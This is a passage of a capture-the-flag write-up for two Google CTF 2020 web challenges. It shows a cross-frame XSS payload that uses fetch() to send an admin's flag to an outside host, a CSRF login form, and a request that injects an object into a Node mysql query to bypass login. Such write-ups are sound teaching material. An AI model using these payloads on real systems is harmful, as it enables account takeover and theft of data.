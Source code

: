 login.html:

```htmlmixed
<form method="POST" action="https://typeselfsub.web.ctfcompetition.com/login">
    <input value="foobartw" type="text" id="username" name="username">
    <input value="foobartw" type="password" id="password" name="password">
    <input type="hidden" name="csrf" value="">
</form>
```

Finally, the profile page in frame 3 will execute XSS in `typeselfsub.web.ctfcompetition.com/` domain.

```htmlmixed
<script>fetch('https://bookgin.tw/?'+btoa(parent.frames[0].document.getElementById('flag').innerText))</script>
```

where `parent.frames[0]` is the frame containg admin's flag.

Flag: `CTF{self-xss?-that-isn't-a-problem-right...}`

For an unintended solution which leaks admin secret route URL via referer, please see [this writeup by pop_eax](https://pop-eax.github.io/blog/posts/ctf-writeup/web/xss/2020/08/23/googlectf2020-pasteurize-tech-support-challenge-writeups/).

### LOG-ME-IN

From the source code `app.js`, we can found the `login` API

```javascript
...
const u = req.body['username'];
const p = req.body['password'];

const con = DBCon(); // mysql.createConnection(...).connect()

const sql = 'Select * from users where username = ? and password = ?';
con.query(sql, [u, p], callbackFunction)
...
```
It parses `username` and `password` from body, and uses them as prepared SQL statement parameter without checking whether they are strings or converting them to string.

And since `bodyParser` `extended: true`, we can send an object to `username` and `password`

By reading how nodejs mysql [Escaping query values](https://github.com/mysqljs/mysql#escaping-query-values) , we can see that it will convert object into format such as
```
`key1`=value1, `key2`=value2 
```

For example
```javascript
const mysql = require('mysql')
mysql.format('SELECT * from example WHERE id = ?', {'a':'b', 'c':'d'})
//SELECT * from example WHERE id = `a` = 'b', `c` = 'd'
```
Therefore, we can send `username=Michelle&password[password]=1` to inject an object into the query, and the query will become
```SQL
Select * from users where username = 'Michelle' and password = `password` = '1'
```
And then we can successfully log in to get the flag
Flag: `CTF{a-premium-effort-deserves-a-premium-flag}`
